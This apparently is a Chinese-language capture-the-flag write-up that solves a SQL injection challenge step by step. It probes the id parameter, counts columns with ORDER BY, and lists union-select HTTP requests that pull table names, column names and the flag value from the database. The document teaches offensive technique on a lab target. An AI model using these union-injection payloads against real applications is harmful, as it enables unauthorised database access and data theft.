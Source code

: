 ```yaml
---
title: 【Web安全】sql1
tags:
  - web security
---
```


1. 拦截浏览器GET请求，点击Action，然后Send to repeater。传入不同的id值可以看到相应的输出，判断可以通过id进行注入。
   
   ![](/img/posts/zh/2023-10-12/00501.png)

2.  使用`order by`子句判断返回的列数。当`order by`为`4`时，界面无回显、值为`3`时有回显。所以后端返回的列数应该是`3`。 
   
   ![](/img/posts/zh/2023-10-12/00502.png)

3. 判断后端返回的前端显示的格式。

```sql
GET /?id=-1 union select 1,2,3 HTTP/1.1
```

   ![](/img/posts/zh/2023-10-12/00503.png)

4. 注入出当前数据库所有的表名发现有个表名为flag。

```sql
GET /?id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) HTTP/1.1
```
   
   ![](/img/posts/zh/2023-10-12/00504.png)

5. 注入出flag表中的全部列名发现有个列名flag。

```sql
GET /?id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='flag') HTTP/1.1
```
   
   ![](/img/posts/zh/2023-10-12/00505.png)

6. 查询flag表的flag列。获取flag！

```sql
GET /?id=-1 union select 1,2,(select flag from flag) HTTP/1.1
```
   
   ![](/img/posts/zh/2023-10-12/00506.png)